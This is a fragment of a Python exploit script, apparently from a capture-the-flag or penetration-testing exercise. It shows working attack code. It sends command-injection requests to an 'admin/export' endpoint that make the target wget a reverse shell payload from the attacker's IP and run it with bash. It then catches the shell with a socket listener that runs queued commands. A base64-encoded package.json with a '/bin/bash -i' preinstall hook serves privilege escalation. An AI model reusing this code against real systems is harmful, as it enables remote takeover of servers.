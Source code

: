     #convert Ip to dec format
    ipDec = int(ipaddress.ip_address(wsIP))

    print("[*] Instructing the target to download and execute the reverse shell payload")
    with contextlib.suppress(requests.exceptions.ReadTimeout):
        requests.get(urlbase+"admin/export?table=x%26rm%20rs", headers=headers)
        requests.get(urlbase+"admin/export?table=x%26wget%20"+str(ipDec)+"%2frs", headers=headers)
        requests.get(urlbase+"admin/export?table=x%26bash%20rs", headers=headers, timeout=0.5)

#listener - Creates a listener which can catch a reverse shell
#Params:
#   ip - IP address to listen on
#   port - Port to listen on
#   lock(opt) - A mutex to release after binding to the specified ip and port
#   commands(opt) - Commands to execute before creating an interactive shell
def listener(ip,port,mutex=None,commands=[]):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((ip, port))
    s.listen(1)
    print("[*] Listening on port " + str(port))
    if mutex != None:
        mutex.release()

    conn, addr = s.accept()
    print('[*] Connection received from ',addr)
    defaultSleepTime = 1 #Time to wait for command output before returning, Measured in seconds
    sleepTime = defaultSleepTime
    while True:

        #Receive data from the target and execute commands
        ans = conn.recv(1024).decode()
        if commands:
            command = commands[0]
            commands = commands[1:]
            if not commands: #If this command is the last command
                sleepTime = 5 #Wait 5 seconds to ensure that all commands have been fully exectued before getting their output
        else:
            sys.stdout.write(ans)
            command = input()
            #Remove the output of the "input()" function
            sys.stdout.write("\033[A\033[F"+ans.split("\n")[-1])

        #Send command
        command += "\n"
        conn.send(command.encode())
        time.sleep(sleepTime) #Wait a second before retreiving the output of the command
        sleepTime = defaultSleepTime

#Create a thread that waits for a listener to start and then executes the reverse shell payload
thread3 = threading.Thread(target=executeRevShell,args=(URLBASE,LHOST,rsLock,headers))
thread3.start()

#Prepare a list with privesc commands and start a listener
#cat package.json | base64 -w 0
packageJSON = "ewogICJuYW1lIjogInByaXZlc2NQYWNrYWdlIiwKICAidmVyc2lvbiI6ICIxLjAuMCIsCiAgIm1haW4iOiAiaW5kZXguanMiLAogICJzY3JpcHRzIjogewogICAgInByZWluc3RhbGwiOiAiL2Jpbi9iYXNoIC1pIgogIH0KfQo="